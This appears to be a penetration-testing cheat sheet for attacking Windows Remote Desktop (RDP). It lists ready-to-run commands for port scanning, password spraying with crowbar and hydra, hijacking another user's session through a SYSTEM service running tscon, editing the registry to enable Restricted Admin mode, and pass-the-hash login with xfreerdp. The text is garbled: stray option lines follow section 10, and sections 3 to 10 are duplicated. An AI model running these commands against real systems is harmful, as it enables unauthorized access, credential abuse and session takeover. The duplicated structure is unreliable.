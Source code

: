 # RDP Enumeration Cheatsheet

Enumerating RDP (port 3389) service.

## 1. Enumerate RDP Service (nmap)
Scan for RDP service on the default port.
```bash
nmap -Pn -p3389 target.com
```
- `-Pn`: Skips host discovery.
- `-p3389`: Targets RDP default port (TCP/3389).

## 2. RDP Password Spraying (crowbar)
Test a single password against a list of usernames.
```bash
crowbar -b rdp -s target.com/32 -U users.txt -c 'password123'
```
- `-b rdp`: Targets RDP protocol.
- `-s target.com/32`: Target IP or range.
- `-U users.txt`: File with usernames.
- `-c 'password123'`: Password to test.

## 3. RDP Password Spraying (hydra)
Perform password spraying against RDP with a username list.
```bash
hydra -L usernames.txt -p 'password123' target.com rdp
```
- `-L usernames.txt`: File with usernames.
- `-p 'password123'`: Password to test.
- `rdp`: Targets RDP protocol.

## 4. RDP Login (rdesktop)
Connect to RDP server with valid credentials.
```bash
rdesktop -u user -p 'password' target.com
```
- `-u user`: Specify username.
- `-p 'password'`: Specify password.
- `target.com`: Target IP or hostname.

## 5. Query User Sessions (Windows)
List active RDP sessions on a Windows system.
```cmd
query user
```
- Displays usernames, session names, IDs, and states.

## 6. Create Service for SYSTEM Privileges (Windows)
Create a Windows service to run a command as SYSTEM.
```cmd
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
```
- `sessionhijack`: Service name.
- `binpath=`: Command to execute (e.g., hijack session ID 2).

## 7. Start Service for RDP Session Hijack (Windows)
Start the created service to hijack an RDP session.
```cmd
net start sessionhijack
```
- `sessionhijack`: Name of the service to start.

## 8. Hijack RDP Session (Windows)
Connect to another user’s RDP session with SYSTEM privileges.
```cmd
tscon 2 /dest:rdp-tcp#13
```
- `2`: Target session ID to hijack.
- `/dest:rdp-tcp#13`: Destination session name.

## 9. Enable Restricted Admin Mode (Windows)
Add registry key to allow RDP Pass-the-Hash.
```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
- `HKLM\...`: Registry path.
- `/t REG_DWORD`: Registry value type.
- `/v DisableRestrictedAdmin`: Key name.
- `/d 0x0`: Value to enable mode.

## 10. RDP Pass-the-Hash (xfreerdp)
Use NTLM hash to connect via RDP.
```bash
xfreerdp /v:target.com /u:user /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```
- `/v:target.com`: Target IP or hostname.
- `/u:user`: Username.
- `/pth:300FF5E89EF33F83A8146C10F5AB9BB9`: NTLM hash.
- `-b rdp`: Targets RDP protocol.
- `-s target.com/32`: Target IP or range.
- `-U users.txt`: File with usernames.
- `-c 'password123'`: Password to test.

## 3. RDP Password Spraying (hydra)
Perform password spraying against RDP with a username list.
```bash
hydra -L usernames.txt -p 'password123' target.com rdp
```
- `-L usernames.txt`: File with usernames.
- `-p 'password123'`: Password to test.
- `rdp`: Targets RDP protocol.

## 4. RDP Login (rdesktop)
Connect to RDP server with valid credentials.
```bash
rdesktop -u user -p 'password' target.com
```
- `-u user`: Specify username.
- `-p 'password'`: Specify password.
- `target.com`: Target IP or hostname.

## 5. Query User Sessions (Windows)
List active RDP sessions on a Windows system.
```cmd
query user
```
- Displays usernames, session names, IDs, and states.

## 6. Create Service for SYSTEM Privileges (Windows)
Create a Windows service to run a command as SYSTEM.
```cmd
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
```
- `sessionhijack`: Service name.
- `binpath=`: Command to execute (e.g., hijack session ID 2).

## 7. Start Service for RDP Session Hijack (Windows)
Start the created service to hijack an RDP session.
```cmd
net start sessionhijack
```
- `sessionhijack`: Name of the service to start.

## 8. Hijack RDP Session (Windows)
Connect to another user’s RDP session with SYSTEM privileges.
```cmd
tscon 2 /dest:rdp-tcp#13
```
- `2`: Target session ID to hijack.
- `/dest:rdp-tcp#13`: Destination session name.

## 9. Enable Restricted Admin Mode (Windows)
Add registry key to allow RDP Pass-the-Hash.
```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
- `HKLM\...`: Registry path.
- `/t REG_DWORD`: Registry value type.
- `/v DisableRestrictedAdmin`: Key name.
- `/d 0x0`: Value to enable mode.

## 10. RDP Pass-the-Hash (xfreerdp)
Use NTLM hash to connect via RDP.
```bash
xfreerdp /v:target.com /u:user /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```
- `/v:target.com`: Target IP or hostname.
- `/u:user`: Username.
- `/pth:300FF5E89EF33F83A8146C10F5AB9BB9`: NTLM hash.